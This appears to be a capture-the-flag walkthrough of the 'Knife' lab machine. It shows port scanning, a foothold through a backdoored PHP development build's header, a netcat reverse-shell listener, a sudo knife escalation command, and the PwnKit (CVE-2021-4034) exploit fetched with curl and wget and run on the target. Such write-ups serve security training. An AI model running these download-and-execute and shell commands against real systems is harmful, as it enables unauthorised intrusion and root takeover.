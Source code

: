 ```yaml
---
title: Knife
published: true
layout: post
---
```


<br />

---------------
Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

<br />

<iframe style="display: block; margin: auto;" width="672" max-width="100%" src="https://www.youtube.com/embed/dkUBdFwqKy4?si=s26SYzfXwAwA_9kW" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.242 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![All Ports](/assets/Knife/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services](/assets/Knife/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp Apache httpd 2.4.41**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![Vulnerabilities](/assets/Knife/3.png)
<br />
<br />
<br />

We only detect a **DoS vulnerability** for the **http service**, which is not useful.

<br />

------

<br />
### Foothold

I think this machine is pretty **beginner-friendly**, as we can solve it basically by enumerating and searching for exploits, however we have to understand what we are doing.

<br />

The first thing that revealed a vulnerability was the **technologies enumeration**:

```bash
whatweb http://10.10.10.242 > whatweb.txt
```

![Whatweb](/assets/Knife/4.png)
<br />
<br />
<br />

The version of PHP is definitely noteworthy, **8.1.0-dev**, the *-dev* suffix is not common in production environments, which leads me to search for a vulnerability using searchsploit:

```bash
searchsploit PHP 8.1.0-dev
```

![Searchsploit](/assets/Knife/5.png)
<br />
<br />
<br />

We can see an exploit that perfectly fits our version, so let's read it and try to replicate it:
![Exploit](/assets/Knife/6.png)
<br />
<br />
<br />

It seems that the script sends an HTTP request in which there is an uncommon header, *User-Agentt*, in which we can use the function `zerodiumsystem()` to **execute a command**, which output is printed before the *<!DOCTYPE html>* tag. Let's try it using BurpSuite:

![whoami](/assets/Knife/7.png)
<br />
<br />
<br />

It's working like a charm, let's send us a **reverse shell**:
```bash
rlwrap nc -nlvp 4444
```

![RevShell](/assets/Knife/8.png)
<br />
<br />
<br />

Let's print the flag and go for the privilege escalation:
<br />
![UserOwn](/assets/Knife/9.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation
For this machine, I discovered **two ways to escalate privileges**, the conventional one and an alternative one.

<br />
#### Conventional Privilege Escalation
Enumerating the system, I discovered that we are able to run the `knife` command as sudo without requiring a password:
```bash
sudo -l
```

![sudo](/assets/Knife/10.png)
<br />
<br />
<br />

A glimpse at [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) uncovered the way:
```
sudo knife exec -E 'exec "/bin/bash"'
```
![knifeprivesc](/assets/Knife/11.png)
<br />
<br />
<br />

Now we just have to print the flag:
<br />
![RootOwn](/assets/Knife/12.png)

<br />
#### Alternative Privilege Escalation
The alternative privilege escalation method works through **CVE-2021-4034**, which is based on giving **SUID permission to an old version of the pkexec binary**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![SUID](/assets/Knife/13.png)
<br />
<br />
<br />

To exploit this vulnerability I used the [PwnKit](https://github.com/ly4k/PwnKit) created by **ly4k**, we just have to download it in our machine:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
sudo python3 -m http.server 80
```
<br />

And then **transfer it to the target machine and run it**:

```bash
wget http://10.10.16.8/PwnKit
chmod +x PwnKit
./PwnKit
```

![PwnKit](/assets/Knife/14.png)
<br />
<br />
<br />

Now we just have to print the flag:
<br />
![RootOwn](/assets/Knife/12.png)
<br />
<br />
<br />
